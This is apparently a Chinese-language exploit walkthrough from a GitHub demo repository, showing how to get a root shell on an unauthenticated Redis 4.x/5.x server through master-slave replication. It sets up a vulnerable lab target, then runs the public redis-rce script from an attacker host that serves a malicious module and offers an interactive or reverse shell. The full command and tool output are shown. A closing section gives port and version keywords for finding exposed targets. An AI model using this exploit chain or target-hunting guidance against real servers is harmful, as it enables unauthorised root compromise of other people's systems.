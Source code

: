 # Redis未授权通过主从复制GETSHELL


## 0x01 环境搭建

靶机kali，ip地址192.168.1.16，安装redis服务命令。  

wget http://download.redis.io/releases/redis-5.0.0.tar.gz  
tar xzf redis-5.0.0.tar.gz  
cd redis-5.0.0  
make  


编译好然后修改redis.conf文件，把127.0.0.1 改成 0.0.0.0  启动服务。  


./redis-server /root/redis-5.0.0/redis.conf  

![1](https://github.com/greekn/Tao-loophole-demo/blob/master/cve-rule/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E9%80%9A%E8%BF%87%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6GETSHELL/1.jpg)

## 0x02 漏洞利用



攻击机Ubuntu，ip地址192.168.1.107，下载exp脚本，然后输入参数开始。



 git close https://github.com/Ridter/redis-rce  
 cd redis-rce  
 greekn@greekn:~/redis-rce$ python3 redis-rce.py -r 192.168.1.16 -L 192.168.1.107 -f exp_lin.so  
 
 █▄▄▄▄ ▄███▄   ██▄   ▄█    ▄▄▄▄▄         █▄▄▄▄ ▄█▄    ▄███▄       
 █  ▄▀ █▀   ▀  █  █  ██   █     ▀▄       █  ▄▀ █▀ ▀▄  █▀   ▀  
 █▀▀▌  ██▄▄    █   █ ██ ▄  ▀▀▀▀▄         █▀▀▌  █   ▀  ██▄▄        
 █  █  █▄   ▄▀ █  █  ▐█  ▀▄▄▄▄▀          █  █  █▄  ▄▀ █▄   ▄▀  
   █   ▀███▀   ███▀   ▐                    █   ▀███▀  ▀███▀        
 ▀                                       ▀                       

[*] Connecting to  192.168.1.16:6379...  
[*] Sending SLAVEOF command to server  
[+] Accepted connection from 192.168.1.16:6379  
[*] Setting filename  
[+] Accepted connection from 192.168.1.16:6379  
[*] Start listening on 192.168.1.107:21000  
[*] Tring to run payload  
[+] Accepted connection from 192.168.1.16:38875  
[*] Closing rogue server...  

[+] What do u want ? [i]nteractive shell or [r]everse shell: i  
[+] Interactive shell open , use "exit" to exit...  
$ whoami  
root  
$   

![2](https://github.com/greekn/Tao-loophole-demo/blob/master/cve-rule/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E9%80%9A%E8%BF%87%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6GETSHELL/2.jpg)

## 0x03 脆弱目标寻找  

漏洞关键词redis 默认端口6379，影响版本 4.x/5.x  

![3](https://github.com/greekn/Tao-loophole-demo/blob/master/cve-rule/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E9%80%9A%E8%BF%87%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6GETSHELL/3.jpg)

参考链接 https://paper.seebug.org/975/  

![4](https://github.com/greekn/Tao-loophole-demo/blob/master/cve-rule/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E9%80%9A%E8%BF%87%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6GETSHELL/4.jpg)



